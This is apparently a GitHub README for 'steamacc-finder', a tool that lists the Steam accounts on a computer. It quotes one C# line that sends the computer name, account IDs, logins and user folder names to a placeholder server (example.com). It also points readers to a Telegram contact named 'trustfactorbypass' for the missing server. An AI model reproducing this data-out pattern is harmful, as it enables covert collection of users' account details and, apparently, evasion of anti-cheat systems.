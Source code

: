 # steamacc-finder
A simple client for finding a list of Steam accounts

# Important:

This release does not contain a native web server that is being used in this line:
```string url = $"http://example.com/api.php?computername={computerName}&perm_account_id={permAccountIdsString}&acc_login={accountLoginsString}&acc_ids={userDataFoldersString}&license_key={unique_key}";```

If you want get it, feel free to dm me: https://t.me/trustfactorbypass
